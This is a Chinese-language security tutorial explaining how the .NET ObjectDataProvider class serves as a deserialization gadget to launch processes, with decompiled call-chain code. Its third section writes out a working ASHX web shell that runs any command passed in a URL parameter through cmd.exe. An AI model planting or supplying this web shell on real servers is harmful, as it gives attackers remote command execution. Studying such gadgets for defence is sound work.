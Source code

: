 0X01 ObjectDataProvider类使用方法
============================

.NET反序列化漏洞核心Gadget：**ObjectDataProvider类**，封装于WPF核心程序集之一PresentationFramework.dll，也是[第12课](https://mp.weixin.qq.com/s/sHKR0zlW2CsphGAmv3_KVA)里重点介绍的类，处于System.Windows.Data命名空间下，顾名思义就是把一个**非静态类实例化后的对象作为数据源提供给WPF控件绑定**，常见用法如下

```php
ObjectDataProvider obj = new ObjectDataProvider();
obj.MethodParameters.Add("calc");
obj.MethodName = "Start";
obj.ObjectInstance = new System.Diagnostics.Process();
```

ObjectDataProvider对象的ObjectInstance设置为Process对象，MethodName设置为Process类的Start方法，MethodParamers为Start方法传递的参数 calc，查看此类的定义可知除了ObjectInstance属性外，还提供了ObjectType属性，也可被设置为任意类型

![1574205-20220426145605981-30873384.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-6c371c54603811229c9c2ee1863500d837427803.png)

那么可用 typeof 获取 Process 所在命名空间的类型引用

```php
ObjectDataProvider objectDataProvider = new ObjectDataProvider()
{              
    ObjectType = typeof(System.Diagnostics.Process)
};
objectDataProvider.MethodParameters.Add("calc");
objectDataProvider.MethodName = "Start";
```

另外可以使用System.Object.GetType() , 返回表示当前对象的Type实例，改写的代码如下

```php
ObjectDataProvider objectDataProvider = new ObjectDataProvider()
{
    ObjectType = new System.Diagnostics.Process().GetType()
};
objectDataProvider.MethodParameters.Add("calc");
objectDataProvider.MethodName = "Start";
```

其实从.NET 源码可见ObjectInstance底层实现也是通过对象的GetType()得到类型

![Flw04Ch2k0wKCNs8llE5pxx2aWjd.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-0aa5b41cb217b3a1e007fa730d356e92ce1356a6.png)

还可使用 System.Type类的静态成员 GetType(文本，是否抛出异常，区分大小写) , 需在第一个参数指定类型的完全限定名，限定名包含了类所在的命名空间、程序集名、版本、语言、PublicKeyToken，采用这种方法的好处在于可指定文本信息，编译时不需要提供数据类型

```php
ObjectDataProvider objectDataProvider = new ObjectDataProvider()
{              
    ObjectType = Type.GetType("System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089", true,true);
};
objectDataProvider.MethodParameters.Add("calc");
objectDataProvider.MethodName = "Start";
```

0X02 ObjectDataProvider调用链
==========================

下图描绘整个WPF项目窗体创建启动到ObjectDataProvider实例化调用对象过程中所有的调用链，右侧是WPF窗体创建过程调用链，左侧是ObjectDataProvider实例化载入任意对象过程的调用栈信息

![lALPJwnIyQ-hYmTNAw_NBtI_1746_783.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-d0d061383a8ff34cf1c9f29e1d8c64b5386228e9.png)

笔者在MainWindow窗体类中实例化了对象ObjectDataProvider，并且继承了DataSourceProvider类，DataSourceProvider定义了两个重要方法，Refresh方法调用虚方法BeginQuery，这个BeginQuery将来会在ObjectDataProvider类里实现。

```php
public void Refresh()
    {
      this._initialLoadCalled = true;
      this.BeginQuery();
    }
protected virtual void BeginQuery()
    {
    }
```

然后这个过程干了3件事，第1件事进入ObjectDataProvider类的构造方法实例化集合，该集合ParameterCollection继承于Collection&lt;Object&gt;，并声明一个委托ParameterCollectionChanged，用于OnParametersChanged 时调用定义在Collection类的公开方法，并重写了Collection类里的InsertItem，SetItem，RemoveItem等多个方法，由于InsertItem声明是受保护的方法不可直接被调用，而Addf声明为公共方法可被调用， 所以设置 MethodParameters.Add("calc")

```php
public ObjectDataProvider()
    {
      this._methodParameters = new ParameterCollection(new ParameterCollectionChanged(this.OnParametersChanged));
      this._sourceDataChangedHandler = new EventHandler(this.OnSourceDataChanged);
    }
```

```php
public ParameterCollection(ParameterCollectionChanged parametersChanged) => this._parametersChanged = parametersChanged;
protected override void InsertItem(int index, object value)
    {
      this.CheckReadOnly();
      base.InsertItem(index, value);
      this.OnCollectionChanged();
    }
private void OnCollectionChanged() => this._parametersChanged(this);
```

```php
    public void Add(T item)
    {
      if (this.items.IsReadOnly)
        ThrowHelper.ThrowNotSupportedException(ExceptionResource.NotSupported_ReadOnlyCollection);
      this.InsertItem(this.items.Count, item);
    }
```

第2件事通过set\_ObjectInstance设置需要创建实例化对象名，this.\_mode == ObjectDataProvider.SourceMode.FromType 这行判断如果枚举的值为FromType就抛出异常，等于说ObjectDataProvider.ObjectType和ObjectDataProvider.ObjectInstance 在实例化时只能二选一，另外SetObjectInstance方法中也是通过value?.GetType()的方式获得类型完全限定名，这点和上一小节1.2演示的Demo一样。

```php
public object ObjectInstance
    {
      set
      {
        if (this._mode == ObjectDataProvider.SourceMode.FromType)
          throw new InvalidOperationException(System.Windows.SR.Get("ObjectDataProviderCanHaveOnlyOneSource"));
        this._mode = value == null ? ObjectDataProvider.SourceMode.NoSource : ObjectDataProvider.SourceMode.FromInstance;
        if (this.ObjectInstance == value)
          return;
        if (!this.SetObjectInstance(value) || this.IsRefreshDeferred)
          return;
        this.Refresh();
      }
    }   

private bool SetObjectInstance(object value)
    {
      if (this._objectInstance == value)
        return false;
      this._objectInstance = value;
      this.SetObjectType(value?.GetType());
      this.OnPropertyChanged("ObjectInstance");
      return true;
    }
```

ObjectType属性底层实现原理如下，this.\_objectType = newType; 直接赋值给了传递的Type类型参数，例如上一小节1.1演示的Demo，ObjectType = typeof(System.Diagnostics.Process)

```php
private bool SetObjectType(Type newType)
    {
      if (!(this._objectType != newType))
        return false;
      this._objectType = newType;
      this.OnPropertyChanged("ObjectType");
      return true;
    }
```

第3件通过set\_MethodName设置对象调用的方法，例如此处的 objectDataProvider.MethodName = "Start";

```php
public string MethodName
    {
      get => this._methodName;
      set
      {
        this._methodName = value;
        this.OnPropertyChanged(nameof (MethodName));
        if (this.IsRefreshDeferred)
          return;
        this.Refresh();
      }
    }
```

接着依次进入下面3个方法 BeginQuery -&gt; QueryWorker -&gt;InvokeMethodOnInstance，BeginQuery终在ObjectDataProvider类里重写实现调用，InvokeMethodOnInstance方法通过属性this.\_objectType反射出MethodName里设置的MethodParameters数组，此处是objArray，至此ObjectDataProvider底层运行原理介绍完毕。

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-a95972ab1abcdb3fbe7d45042e9b1f9e7c7536ad.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-9325a8ca55d8a89928eb58ec4500eff8044655b1.png)

0X03 编写Web脚本程序
==============

程序内部采用Base64编码和解码的解析方式运行，这样的好处在于对URL特殊字符串的处置，启动Process类调用cmd.exe/c calc.exe 执行命令，核心代码如下

```php
public static void CodeInject(string input)
    {
        string ExecCode = EncodeBase64("utf-8", input);
        ObjectDataProvider objectDataProvider = new ObjectDataProvider()
        {
            ObjectInstance = new System.Diagnostics.Process(),
        };
        objectDataProvider.MethodParameters.Add("cmd.exe");
        objectDataProvider.MethodParameters.Add("/c " + DecodeBase64("utf-8",ExecCode));
        objectDataProvider.MethodName = "Start";
    }

public void ProcessRequest(HttpContext context)
    {
        context.Response.ContentType = "text/plain";
        if (!string.IsNullOrEmpty(context.Request["input"]))
        {
            CodeInject(context.Request["input"]);
            context.Response.Write("Status: 执行完毕！");
        }
        else
        {
            context.Response.Write("1. example: http://www.xxxxxxx.com/ObjectDataProviderSpy.ashx?input=calc.exe\n\n");
            context.Response.Write("2. 程序调用cmd.exe/c calc.exe 执行命令，注意：本程序仅供实验学习 ObjectDataProvider类，请勿违法滥用！");
        }
    }
```

笔者创建的是ashx扩展名的文件，访问 <http://localhost:52188/ObjectDataProviderSpy.ashx?input=calc>

![FszadLIvzFc1URm5xC1msHb7OXAR.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-56839e056a10f6f9a93c784b314c7da133816a2c.png)

另外在上小节ObjectDataProvider类提到ObjectType属性也可以设定对象的类型，而.NET里获取 Type数据类型常用的有typeof运算符、System.Type类GetType方法、System.Object.Type，所以将 ObjectInstance 替换成 ObjectType 也可以触发命令执行。

0X04 结语
=======

ObjectDataProvider的确很神奇，希望未来不会被恶意滥用，好啦本文就介绍到此，文章涉及的WebShell已打包到[Github](https://github.com/Ivan1ee/)，下期会继续分享.NET执行命令第2课，请大伙继续关注和支持！